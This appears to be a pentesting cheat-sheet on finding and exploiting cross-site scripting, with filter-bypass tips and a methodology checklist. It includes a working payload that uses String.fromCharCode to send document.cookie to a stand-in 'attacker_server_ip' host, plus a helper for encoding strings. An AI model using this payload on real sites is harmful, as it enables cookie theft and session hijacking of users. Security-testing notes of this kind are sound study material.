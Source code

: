 

# <font color="red">XSS</font>
#### 1- check for any value you can control (parameter , path, header, cookie) is being reflected in the **HTML** or used by **JS** code  


##### <font color="red">NOTE</font>:  for testing to find xss instead of splashing different payloads test for these characters and note that which  one of them getrendered directly and which one escapes>'<"//:=;!--
##### <font color="red">NOTE</font>: for bypassing the xss protections you can use <font color="green">1- </font>alternative javascripts <font color="green">2-</font> Capitalization and Encoding <font color="green">3-</font> If the application filters special HTML characters, like single and double quotes, you can’t write any strings into your XSS payload directly. But you could try using the JavaScript fromCharCode() function, which maps numeric codes to the corresponding ASCII characters, to create the string you need. For example, this piece of code is equivalent to the string "http://attacker_server_ip/?c=" like: String.fromCharCode(104, 116, 116, 112, 58, 47, 47, 97, 116, 116, 97, 99, 107, 101, 114, 95, 115, 101, 114, 118, 101, 114, 95, 105, 112, 47, 63, 99, 61) for example for a payload this is how it is : _<scrIPT_>location=String.fromCharCode(104, 116, 116, 112, 58, 47,47, 97, 116, 116, 97, 99, 107, 101, 114, 95, 115, 101, 114, 118,101, 114, 95, 105, 112, 47, 63, 99, 61)+document.cookie;_< /scrIPT_>  for getting the char code of the string you want you can use this code: function ascii(c){return c.charCodeAt();} encoded = "http://attacker_server_ip/?c=".split("").map(ascii); document.write(encoded);<font color="green">4-</font> Filter Logic Errors and ...

#### if <font color="red">reflected</font>: 
####  <font color="red">   in raw HTML : </font>
#####           1- create HTML tag?
#####           2-use events or attribiutes supporting javascript: protocol ?
#####           3- HTML content being interpreted by any client side JS engine (Angular , Vue , Mavo ...)? -> you can abuse  a [CSTI](https://book.hacktricks.xyz/pentesting-web/client-side-template-injection-csti) and [THIS](https://portswigger.net/research/abusing-javascript-frameworks-to-bypass-xss-mitigations)

#####           4-bypass protection
#####           5-if can not create tags that excecute JS code , could you abuse [dangling markup](https://book.hacktricks.xyz/pentesting-web/dangling-markup-html-scriptless-injection) 
